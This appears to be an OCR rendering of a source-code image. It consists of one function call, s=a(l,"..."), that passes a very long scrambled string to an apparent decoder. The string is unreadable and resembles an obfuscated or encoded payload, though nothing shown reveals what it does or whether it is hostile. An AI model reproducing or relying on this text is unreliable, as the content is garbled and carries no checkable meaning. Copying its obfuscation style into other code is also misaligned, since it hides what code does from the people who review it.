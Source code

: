s=a(l,"jYN0IR82-(9%UlXH2R(0l%NI8HU}HHI-(Yl-9NYYIH(0X%lUIlU0H(%8v-I8-Hl-YHl2RI(9X?NU8I8UllR0-(I8(0l8YH8-9H89lXN220%l8(U0H(IN-%lN-UH0IlII%HY28N9l%YNl-Ul(N9899-7II-(IIY9NlYY9809988XNY-RH%9bN0-(N-(HH2G%8HY0%(Y--HX20%8}i09(TX3l&N%Y--09-HY09-YI998X%0H-(-RwbR-9lH(00-NU(UlYX-RHl0H2lUUY%80(H920X---N_XR(9(H%0%2(l0l0U(N0R(9NX%0NHlIN-X%XXl8(l0Y9R8(HH2XU8-Ul.9R0(XHI9Y:#0Y29U0L9UN0-2UU(G9zX29HN0--RUXY080(%HYX-RR%H3(RY90HYNUX80l28%H_-IH&U-YUl:9RX98(UYU8HU(YNRN9YXl02X00(20%UqR(NHXI8-HX0NlIl%YqXNR-2X2YH8-%Q(2X2N22e%(#OU00(-0%2{lNU9Nl-(RXRNR8X%2HXURW0R%90%(N(29(R(0X0N08U%RHU%IN^8((9H-IN-XlX(YXUNY89%0H9%%NH8lUY<(RY(U(L:U89%,_N0X(Il-YH8N%-A8%NHHIN-%lIY%ENIl-ll%N9lRNY8R9XH20Xx0RH%IHR9HK-0H--lYY-l%IY-2lXYU899U9XN9-(l8N2829RVYIR(Y0X( UXY28t9280UXY2Y(-2H-II-8l-YIUXYXRX92H;02Hq889XHIHN80l(sHUU0(RU9RXX0RHNNR%CH%IR-N(NNE82RlXXII29-YlN0(%YH00Y-3UHY2R0R%HN0U089H)%N{-2HNNX2XU9,UY(MHRH(HX-0Y2-I09%H80(009IY9RtDlRX(lX8NH280H(HXl08-I29X%8Y(2RI90XINl28%l-%99+2-(UlY0IH (8Y((XNN%2N0R92lXNH-828XYRI9sllNX2H2RX8RU(NIH%NlHN-2Y%-9Yl90(8%U8rHI99NX!NII0-YU9YU8N9%Hs09-RlNY%RH9RHN0U-IU9%- %I-(Yl9NYX9IN-ll8N%2I%U%2N-(XlI(YX2NY89%0H9UINX2U%-H9HX29lRNR829Xr-IU(-IR(NlRYX829X89XIY-8I9X8-U0H-IY-9lY(%z8IU((lRN%8082xIIY-2-%HH88%NH%0l(0-%-(l-Y(8N9%HN%8NY208IlRI%-Y0X(YUXY28E922NXaN:RX8NH9I80l99Y-RlY28H92H30(-uIU9XHNI-->l8NqR29%9-NI2llRYR8R%NRl9HXl082HU8-IHH0U0-9l HRI90H900Xl0(2lU8THR8Y82(UXY8U2NNR294X(0&H98R9(X20l0I9()%Rw(HH8NH009HYIRY(9XR0%X-092-UY19RYYI-I29HlRY(9(XeH-R%%2-lNT-RY(9XY9%Y8RU9(XR0%2022YIRY(2(%mH28UNT%Il90R79-XGN(2N%(-0XX0I-Y%lY0I2(%(-YI2XUN)XIX(0X9(8XNN88H%-HHU2p22l%02cU8vuI((Nl(9_a-RNI%ll0YN8U0z9IN-XlUN98UNI29%IHlI8-lRI%RH2Il(UXSN2N0(NkIRB-9lRNUl-N-8-%YH9IY*I2=%8%0N2-XlUYXl800889HH-0HH28l%YHX0HI09XNYRH%9AIH(2RlINY2N%NHAIU( lU-2lBY(8N9%HI0l-8UHY98(99H00U-0I-9IWYHR88lUYNUHN8RH9-HY0-HY89%_HR0--9-RH#889XXXIR0%9l&0UUNNRU9RXX0R:0Rl9l9XI00(l8Y0R(Rll(0H(Y9o-wllY=R(9NX(90YYR29:H20N089R#(RI9XHN0X-X2XH%8((UHY09-N00-YU0dURR(UR899UR08-UUN(HXHNH2-UY1-H002-IUXYRRR90XR(lX9Nl28%Hg8U0NH-N%%{(UP6HR&((XNN(H00(-%(%J(8h982RUI:RIX(2lX((D2R9(0X-0I8HN92%%9_0IU(0R-%IE%RD(2(2+-2X%I2YUYvYI9(0l99%HHRRRU(Rh82U%N8HU-HHI-(Yl-(NH(R0I9URYl8-%0%200(NlHN28RUYcRRYHXIl-Xl2N<82YH((X0YX2 9UOv%0rNI0-UlRYUX0IX-9XYN/8X9X8-%UH-IY-9lY-H;C0%-H-UH2RH%%uIIR-2lX-90(Y9809UH0lNN22&%R_YYYIH(-NIRU%%%%0l--lUY(8H9R1YI--0l(Y08-%hHH0(-%l9llR%%JH2pN8HU-N=83%zHlYI-ll9lUIN9-X9I02%lRNRI99UHxI82XlIYXRR9(lNII-Il%xHNN9XX90I-9-HYYR2(UX-IuIRUU/(R99-%NY-2XU5Y(RY9%H%N6-NU8YURI99HIN%2H9-Y9R9%YXR(HH-NH2-UYv-U0092NUYYNR9RR%HN%-8%XY3RH9(XHN%-NNl28UqY%RS((XNN(YIR-99XIN22Y%2YNRcRYUH0Y2RU%s0R(90l9NXXYI82Y%930I9D8-N%-HHR99Nl-0NN(29XYR((%l(N-22%HH%:02Ul-XlRI%HH%I%(2l(X8lUNl8U%RHXIR^989U8#UR0I(%90:88N02I%0HUIR-UIIUbHlI0(((>}Y229l89%XH9I0-Ul0-lTNI9-%l2YXI8%-HX0H-(lH-UX8YU8R9XHR9HNI8U%%>NI--Xl*lI8Y%R9HN%-IlUYU8U%(8I%8HI0l-8Ul-8HHIR-Xl0H(R%%(HYI0HIII-IUlY8RlN28#%8UHN%2Y%9